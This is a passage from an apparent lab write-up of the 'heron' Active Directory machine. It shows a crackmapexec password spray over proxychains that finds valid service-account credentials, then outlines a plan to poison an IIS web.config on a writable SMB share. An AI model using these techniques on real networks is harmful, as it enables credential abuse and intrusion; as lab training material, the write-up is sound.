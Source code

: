 will use [gpp-decyrpt](https://github.com/t0thkr1s/gpp-decrypt) file for extract it.

![alt text](../assets/images/Screenshot_2024-07-12_21_51_47.png)


i will try this password with all users.


    ➜  heron proxychains crackmapexec smb 10.10.140.245 -u fullusers.txt -p '<redacted>' --continue-on-success
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.17
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.140.245:445  ...  OK
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.140.245:135  ...  OK
    SMB         10.10.140.245   445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.140.245:445  ...  OK
    SMB         10.10.140.245   445    MUCDC            [+] heron.vl\svc-web-accounting-d:<redacted>

Note that at this point I took a break in between creating this writeup, so the IP addresses will change. The updated addresses for mucdc.heron.vl and frajmp.heron.vl are 10.10.220.53 and 10.10.220.54.

Since we have valid credentials for svc-web-accounting-d, I decided to see if we had access to the accounting$ SMB share that we saw previously.

## Poising-Web.config
![alt text](../assets/images/Screenshot_2024-07-12_21_55_33.png)


its also work for accounting vhost we can access webser rn.

After doing a bit of research into this application (finding that this is an IIS application running ASP.NET), the actual exploitation consists of the web.config file that is located on the root directory of this SMB share.

    <?xml version="1.0" encoding="utf-8"?>
    <configuration>
    <location path="." inheritInChildApplications="false">
        <system.webServer>
        <handlers>
            <add name="aspNetCore" path="*" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
        </handlers>
        <aspNetCore processPath="dotnet" arguments=".\AccountingApp.dll" stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="inprocess" />
        </system.webServer>
    </location>
    </configuration>
    <!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->

![alt text](../assets/images/Screenshot_2024-07-12_21_57_39.png)


This file specifically seems to be related to the runtime arguments that actually define how this application is initialized. As we can see, the aspNetCore module is created by executing AccountingApp.dll, which I’m assuming is then chained to execute all of the other libraries within this directory.

